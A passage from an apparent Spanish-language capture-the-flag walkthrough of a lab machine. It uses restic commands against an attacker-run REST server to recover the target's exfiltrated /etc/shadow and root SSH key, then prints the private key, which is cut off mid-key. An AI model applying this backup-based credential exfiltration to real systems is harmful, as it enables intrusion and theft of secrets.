 Veremos que aparentemente si ha funcionado, por lo que vamos a ver las `snapshots` y exportarlo para ver dicho archivo.

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Pwn3d" snapshots
```

Info:

```
repository adeef797 opened (repository version 2) successfully, password is correct
ID        Time                 Host         Tags        Paths
-------------------------------------------------------------------------
8ba0bb36  2025-09-19 12:29:02  codeparttwo              /etc/shadow
f17a625d  2025-09-19 12:39:25  codeparttwo              /root/.ssh/id_rsa
-------------------------------------------------------------------------
2 snapshots
```

Veremos que nos llego bien, ahora vamos a exportarlo:

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Pwn3d" restore f17a625d --include /root/.ssh/id_rsa --target /tmp
```

Info:

```
repository adeef797 opened (repository version 2) successfully, password is correct
restoring <Snapshot f17a625d of [/root/.ssh/id_rsa] at 2025-09-19 16:39:25.522790289 +0000 UTC by root@codeparttwo> to /tmp
```

Ahora vamos a leer dicho archivo a ver si todo fue bien:

```shell
cat /tmp/root/.ssh/id_rsa
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA9apNjja2/vuDV4aaVheXnLbCe7dJBI/l4Lhc0nQA5F9wGFxkvIEy
VXRep4N+ujxYKVfcT3HZYR6PsqXkOrIb99zwr1GkEeAIPdz7ON0pwEYFxsHHnBr+rPAp9d
EaM7OOojou1KJTNn0ETKzvxoYelyiMkX9rVtaETXNtsSewYUj4cqKe1l/w4+MeilBdFP7q
kiXtMQ5nyiO2E4gQAvXQt9bkMOI1UXqq+IhUBoLJOwxoDwuJyqMKEDGBgMoC2E7dNmxwJV
XQSdbdtrqmtCZJmPhsAT678v4bLUjARk9bnl34/zSXTkUnH+bGKn1hJQ+IG95PZ/rusjcJ
hNzr/GTaAntxsAZEvWr7hZF/56LXncDxS0yLa5YVS8YsEHerd/SBt1m5KCAPGofMrnxSSS
pyuYSlw/OnTT8bzoAY1jDXlr5WugxJz8WZJ3ItpUeBi4YSP2Rmrc29SdKKqzryr7AEn4sb
JJ0y4l95ERARsMPFFbiEyw5MGG3ni61Xw62T3BTlAAAFiCA2JBMgNiQTAAAAB3NzaC1yc2
EAAAGBAPWqTY42tv77g1eGmlYXl5y2wnu3SQSP5eC4XNJ0AORfcBhcZLyBMlV0XqeDfro8
WClX3E9x2WEej7Kl5DqyG/fc8K9RpBHgCD3c+zjdKcBGBcbBx5wa/qzwKfXRGjOzjqI6Lt
SiUzZ9BEys78aGHpcojJF/a1bWhE1zbbEnsGFI+HKintZf8OPjHopQXRT+6pIl7TEOZ8oj
thOIEAL10LfW5DDiNVF6qviIVAaCyTsMaA8LicqjChAxgYDKAthO3TZscCVV0EnW3ba6pr
QmSZj4bAE+u/L+Gy1IwEZPW55d+P80l05FJx/mxip9YSUPiBveT2f67rI3CYTc6/xk2gJ7
cbAGRL1q+4WRf+ei153A8UtMi2uWFUvGLBB3q3f0gbdZuSggDxqHzK58UkkqcrmEpcPzp0
0/G86AGNYw15a+VroMSc/FmSdyLaVHgYuGEj9kZq3NvUnSiqs68q+wBJ+LGySdMuJfeREQ
EbDDxRW4hMsOTBht54utV8Otk9wU5QAAAAMBAAEAAAGBAJYX9ASEp2/IaWnLgnZBOc901g
RSallQNcoDuiqW14iwSsOHh8CoSwFs9Pvx2jac8dxoouEjFQZCbtdehb/a3D2nDqJ/Bfgp
4b8ySYdnkL+5yIO0F2noEFvG7EwU8qZN+UJivAQMHT04Sq0yJ9kqTnxaOPAYYpOOwwyzDn
zjW99Efw9DDjq6KWqCdEFbclOGn/ilFXMYcw9MnEz4n5e/akM4FvlK6/qZMOZiHLxRofLi
1J0Elq5oyJg2NwJh6jUQkOLitt0KjuuYPr3sRMY98QCHcZvzUMmJ/hPZIZAQFtJEtXHkt5
UkQ9SgC/LEaLU2tPDr3L+JlrY1Hgn6iJlD0ugOxn3fb924P2y0Xhar56g1NchpNe1kZw7g
prSiC8F2ustRvWmMPCCjS/3QSziYVpM2uEVdW04N702SJGkhJLEpVxHWszYbQpDatq5ckb
SaprgELr/XWWFjz3FR4BNI/ZbdFf8+bVGTVf2IvoTqe6Db0aUGrnOJccgJdlKR8e2nwQAA
AMEA79NxcGx+wnl11qfgc1dw25Olzc6+Jflkvyd4cI5WMKvwIHLOwNQwviWkNrCFmTihHJ
gtfeE73oFRdMV2SDKmup17VzbE47x50m0ykT09KOdAbwxBK7W3A99JDckPBlqXe0x6TG65
UotCk9hWibrl2nXTufZ1F3XGQu1LlQuj8SHyijdzutNQkEteKo374/AB1t2XZIENWzUZNx
```